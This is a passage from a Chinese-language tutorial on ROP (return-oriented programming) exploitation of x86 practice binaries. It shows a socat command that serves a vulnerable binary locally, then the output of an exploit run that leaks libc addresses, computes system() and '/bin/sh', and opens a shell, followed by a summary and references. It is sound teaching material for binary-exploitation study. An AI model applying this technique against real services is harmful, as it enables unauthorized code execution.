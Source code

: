 接着我们使用`socat`把level2绑定到`10003端口`:

``` bash
socat TCP4-LISTEN:10003,fork EXEC:./level2
```

最后执行我们的exp：

``` bash
$ python level3_exp.py
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x86/0x03/libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x86/0x03/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 127.0.0.1 on port 10003: Done
write_plt= 0x8048320
write_got= 0x804a014
vulfun_addr= 0x8048471

###sending payload1 ...###

###receving write() addr...###
write_addr= 0xf7df3b70

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xf7d58da0
binsh_addr= 0xf7e79a0b

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
buffer

```

### 0x04 小结

本章简单介绍了`ROP攻击`的基本原理，由于篇幅原因，我们会在随后的文章中会介绍更多的攻击技巧：如何利用工具寻找`gadgets`，如何在`不知道对方libc.so版本`的情况下`计算offset`；如何`绕过Stack Protector`等。欢迎大家到时继续学习。另外本文提到的所有源代码和工具都可以从我的github下载：https://github.com/zhengmin1989/ROP_STEP_BY_STEP

### 0x05 参考文献

> 1. The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)
> 2. picoCTF 2013: https://github.com/picoCTF/2013-Problems
> 3. Smashing The Stack For Fun And Profit: http://phrack.org/issues/49/14.html
> 4. 程序员的自我修养
> 5. ROP轻松谈
